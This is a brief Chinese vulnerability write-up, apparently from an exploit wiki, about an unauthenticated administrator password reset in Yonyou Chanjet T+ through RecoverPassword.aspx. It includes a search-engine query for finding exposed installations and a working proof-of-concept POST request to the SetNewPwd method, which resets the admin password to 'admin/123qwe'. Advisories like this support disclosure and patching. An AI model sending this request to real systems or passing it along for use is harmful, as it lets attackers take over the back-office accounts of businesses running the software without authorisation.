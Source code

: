 # 用友 畅捷通T+ RecoverPassword.aspx 管理员密码修改漏洞

## 漏洞描述

用友 畅捷通T+ RecoverPassword.aspx 存在未授权管理员密码修改漏洞，攻击者可以通过漏洞修改管理员账号密码登录后台

## 漏洞影响

<a-checkbox checked>用友 畅捷通T+</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="畅捷通-TPlus"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1662017510454-8bb328d0-35ee-42f9-a36a-625e95a5cfc2.png)

验证POC, 重置账号密码为 `admin/123qwe`

```php
POST /tplus/ajaxpro/RecoverPassword,App_Web_recoverpassword.aspx.cdcab7d2.ashx?method=SetNewPwd

{"pwdNew":"46f94c8de14fb36680850768ff1b7f2a"}
```

![img](/assets/PeiQi-Wiki/img/1662032164696-3998d8bc-1adb-4ebe-bf03-caff84a33a26.png)